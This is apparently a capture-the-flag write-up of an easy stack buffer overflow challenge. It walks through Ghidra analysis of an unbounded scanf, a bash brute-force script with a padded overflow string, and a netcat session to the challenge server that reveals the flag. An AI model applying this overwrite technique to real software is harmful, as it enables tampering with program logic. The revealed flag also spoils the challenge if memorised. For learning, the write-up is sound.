





<p align="center">
  
</p>

---

- 🎯 **Target:** Kids 2.0 pwn.spbctf - Easy Overflow 1
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 19.06.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** `Stack Buffer Overflow`
- 💻 **Platform:** Linux

---

## Ghidra

> I download the `mc4_censored` task file and open it in `ghidra` to disassemble and identify potentially vulnerable code blocks:




> I see the main function `main` which is executed when the file `mc4_censored` is executed. The logic of the function is presented on the right side of the program:



> the function consists of a stack where local variables are located. The stack grows downwards, so: `local_118[8]` is located above (in memory at a higher address), then `word[256]`, then `local_10[4]`.
> When the file is executed, the string `What's your favorite word?` is printed; after user input, the value is saved in an array of `8` bytes - `local_118`.

> the string `"No."` is copied to `local_10`.

> The problem is in this line `«scanf("%s", local_118);»`. This line reads the input string from the user without length limitation into a buffer of `8` bytes -> `local_118`.
> This can lead to a `buffer overflow` vulnerability, which will allow you to simply overwrite the values ​​of adjacent variables on the stack, for example - `local_10`.

> According to the logic of the function, if `local_10` is equal to - `"Yesss!"`, then the program will print a flag to the console:

```none

printf("Flag is: spbctf{*********************}\n");

```

> Otherwise, since the `local_10` variable contains the string `"No."`, the console will print the string `Good, but i won\'t give you flag.\n`:

```none

printf("Good, but i won\'t give you flag.\n");

```

> **Note:** `Buffer Overflow` is a memory management bug attack technique that occurs when a program, when executed, overwrites the user's input data in
> the program's allocated memory (buffer), going beyond its limits and thereby overwriting critical data in these variables or giving the opportunity to write its own.

---

> So the point is that the program itself does not expect that the user's input will affect the `local_10` variable, but this is possible due to the poor buffer size and lack of protection.

> When executing the file, you need to enter such a number of characters to go beyond the allocated memory cell and overwrite `local_10`. That is, overwrite its value - the string `"No."`

> Manually selecting the appropriate number of characters is very time-consuming. To exploit this attack, I will write a simple script `mc4_exploit.sh` to enumerate characters starting from `1`
> and ending with `1000` (for example) and specify the file `mc4_censored` as an argument:

```bash

#!/bin/bash
	for i in {1..1000}; do

  		echo -n "$i: ";

  		python3 -c "print('A'*$i + 'Yesss!')" | ./mc4_censored
	done

```

> Make the file executable and run it:

```bash

chmod +x mc4_exploit.sh

./mc4_exploit.sh

```
> Result:



> When sending `264` characters with the string `«Yesss!»` appended, the program returns a flag. (encrypted :) )

> Ok. Now I know that the buffer overflow starts with the `264` character and then the data is overwritten.

> Again, as with the script, manually typing `264` characters is too tedious. To generate a string with arbitrary characters of the required length, I will use the `pwgen` utility:

```bash

pwgen -s 264 1

```
> Result:



> The string is ready. Don't forget to add `Yesss!"` at the end because we need to overwrite the value of the `local_10` variable after overflow. That is, by the conditions after overflow
> I replace the value of the current variable `local_10` with the string `"Yesss!"` and then the logic will be as follows - `iVarl == 0 ` -> `"Yesss!" == "Yesss!"`.

> I run the `mc4_censored` file and send there the generated string with `Yesss!` added:



> OK. The data of the `local_10` variable has been overwritten. The program returned the `flag. But in encrypted form.

> To get the full flag, you need to send a request via `nc` to `109.233.56.90:11584`:


```bash

nc 109.233.56.90 11584

What's your favorite word?  7lhlDhfud93y2m6bEDVhgbKqoBxjcTPdI05QkKk2Xh5NBS68E2Nw0pEaloMjBWV33n1vQULY0Q9ihEgIKJkuINMtlsRk5ct4d34X5ru3eAXg0T79WTEbkTGIUkoj8TUZWYCWEbmG1DaWa5
			    VouqpMnWF3Cq3OnKw00UpVLEKIrZFwyOx4ppbu1ze4bmLEeSNo4jzn19KtVAzvoXVtIYKaBPV1UcCkSr4a1KMu6t5p2HFVGPwFdSxVmHbW8qnP5IvxxbcRCQbdYesss!

Flag is: spbctf{babys_f1rst_0verfl0ww}


```

> I get flag - `spbctf{babys_f1rst_0verfl0ww}`
